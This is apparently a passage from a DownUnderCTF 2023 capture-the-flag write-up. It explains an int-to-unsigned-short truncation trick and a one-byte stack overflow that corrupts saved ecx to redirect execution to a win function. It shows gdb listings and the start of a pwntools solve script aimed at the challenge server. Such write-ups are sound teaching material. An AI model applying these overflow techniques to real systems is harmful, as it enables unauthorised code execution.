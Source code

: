 We need to enter 7 to win. The program takes input as `int` (4 bytes) but then casts it to `unsigned short` (2 bytes), omitting the higher 2 bytes. Therefore, we want to input a negative `int` with 2 lower bytes being `0007`, such as `0xffff0007`

flag: `DUCTF{-65529_==_7_(mod_65536)}`

# [pwn/beginner 100] one byte

The return procedure is as following. 

```gdb
 ► 0x5656a28b <main+93>                    add    esp, 0x10
   0x5656a28e <main+96>                    mov    eax, 0
   0x5656a293 <main+101>                   lea    esp, [ebp - 8]
   0x5656a296 <main+104>                   pop    ecx
   0x5656a297 <main+105>                   pop    ebx
   0x5656a298 <main+106>                   pop    ebp
   0x5656a299 <main+107>                   lea    esp, [ecx - 4]
   0x5656a29c <main+110>                   ret
```

`ecx` is poped from stack and used to calculate return address. Using the one-byte overflow we can control `ecx` and point return address to our buffer.

For example, with this stack, we can changed saved `ecx` from `0xff971a50` to `0xff971a24` to win. 

```gdb
pwndbg> tel 0xff971a20	# buffer
00:0000│ ecx 0xff971a20 —▸ 0x56627203 (win) ◂— push ebp
01:0004│     0xff971a24 ◂— 0x61616161 ('aaaa')
... ↓        2 skipped
04:0010│     0xff971a30 —▸ 0xff971a50 ◂— 0x1	# saved ecx
05:0014│     0xff971a34 —▸ 0xf7f4e000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
06:0018│ ebp 0xff971a38 —▸ 0xf7fa3020 (_rtld_global) —▸ 0xf7fa3a40 —▸ 0x56626000 ◂— 0x464c457f
```

Note that only the least significant nibble in stack address is fixed, so we might have to run the solve script serveral times (~16 times).

`solve.py`:

```python
#!/usr/bin/env python3
from pwn import *

context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu bash -c'.split()
context.arch = 'i386'

host, port = 'nc 2023.ductf.dev 30018'.split()[1:]
port = int(port)

elf = ELF('./onebyte')

script = '''
# brva 0x0001286
brva 0x000128B
c
'''

if args.LOCAL:
    p = process(elf.path)
elif args.GDB:
    p = gdb.debug(elf.path, gdbscript=script)
else:
    p = remote(host, port)
    
p.recvuntil(b'Free junk: ')
```